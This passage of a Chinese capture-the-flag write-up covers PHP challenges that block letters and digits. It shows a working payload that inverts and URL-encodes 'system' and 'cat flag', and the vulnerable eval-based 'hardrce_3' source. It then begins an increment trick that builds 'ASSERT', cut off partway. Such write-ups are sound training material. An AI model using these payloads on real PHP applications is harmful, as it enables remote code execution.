 ```php
<?php
$a = 'system';
$b = 'cat$IFS$1/flllllaaaaaaggggggg';
echo '(~'.urlencode(~$a).')(~'.urlencode(~$b).');';
// (~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DB%B6%B9%AC%DB%CE%D0%99%93%93%93%93%93%9E%9E%9E%9E%9E%9E%98%98%98%98%98%98%98);
```

```
wllm=(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DB%B6%B9%AC%DB%CE%D0%99%93%93%93%93%93%9E%9E%9E%9E%9E%9E%98%98%98%98%98%98%98);
```

### hardrce\_3

```php
<?php
header("Content-Type:text/html;charset=utf-8");
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['wllm'])) {
  $wllm = $_GET['wllm'];
  $blacklist = [' ','\^','\~','\|'];
  foreach ($blacklist as $blackitem) {
    if (preg_match('/' . $blackitem . '/m', $wllm)) {
      die("小伙子只会异或和取反？不好意思哦LTLT说不能用！！");
    }
  }
  if(preg_match('/[a-zA-Z0-9]/is',$wllm)) {
    die("Ra'sAlGhul说用字母数字是没有灵魂的！");
  }
  echo "NoVic4说：不错哦小伙子，可你能拿到flag吗？";
  eval($wllm);
} else {
  echo "蔡总说：注意审题！！！";
}
?>
```

这是一道无字母数字 rce ，根据百度一番查找找到用自增的方法来解决

> https://blog.csdn.net/qq\_61778128/article/details/127063407

```php
<?php
$_=[].'';   //得到"Array"
$___ = $_[$__];   //得到"A"，$__没有定义，默认为False也即0，此时$___="A"
$__ = $___;   //$__="A"
$_ = $___;   //$_="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"S"，此时$__="S"
$___ .= $__;   //$___="AS"
$___ .= $__;   //$___="ASS"
$__ = $_;   //$__="A"
$__++;$__++;$__++;$__++;   //得到"E"，此时$__="E"
$___ .= $__;   //$___="ASSE"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__;$__++;   //得到"R"，此时$__="R"
$___ .= $__;   //$___="ASSER"
$__++;$__++;   //得到"T"，此时$__="T"
$___ .= $__;   //$___="ASSERT"
$__ = $_;   //$__="A"
$____ = "_";   //$____="_"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"P"，此时$__="P"
$____ .= $__;   //$____="_P"
```